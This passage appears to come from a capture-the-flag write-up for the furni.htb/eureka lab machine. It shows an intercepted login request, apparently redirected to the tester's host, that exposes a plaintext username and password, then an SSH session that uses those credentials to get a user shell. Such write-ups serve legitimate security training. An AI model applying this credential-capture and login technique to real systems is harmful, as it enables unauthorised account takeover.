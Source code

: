 ```shell
User-Agent: Mozilla/5.0 (X11; Linux x86_64)
Forwarded: proto=http;host=furni.htb;for="127.0.0.1:42784"
X-Forwarded-Port: 80
X-Forwarded-Host: furni.htb
host: 10.10.16.39

username=miranda.wise%40furni.htb&password=IL%21veT0Be%26BeT0L0ve&_csrf=CD9HUkRayeBCvcmC8che2TjnhCb9IM9H-I8HEDaeN1PROQSIOAl0MSZsrNNvi_i0w-VqugjVqUfFGP5qzuo_KFL7DjK3D2K4
```

| Username     | Password           |
| ------------ | ------------------ |
| miranda-wise | IL!veT0Be&BeT0L0ve |

```shell
┌──(kali㉿kali)-[~]
└─$ ssh miranda-wise@10.129.196.154
miranda-wise@10.129.196.154's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-214-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon 28 Apr 2025 07:26:49 AM UTC

  System load:           0.32
  Usage of /:            68.8% of 6.79GB
  Memory usage:          51%
  Swap usage:            0%
  Processes:             244
  Users logged in:       1
  IPv4 address for eth0: 10.129.196.154
  IPv6 address for eth0: dead:beef::250:56ff:feb0:3cca


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

2 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Apr 28 07:26:50 2025 from 10.10.16.39
miranda-wise@eureka:~$
```

## user.txt
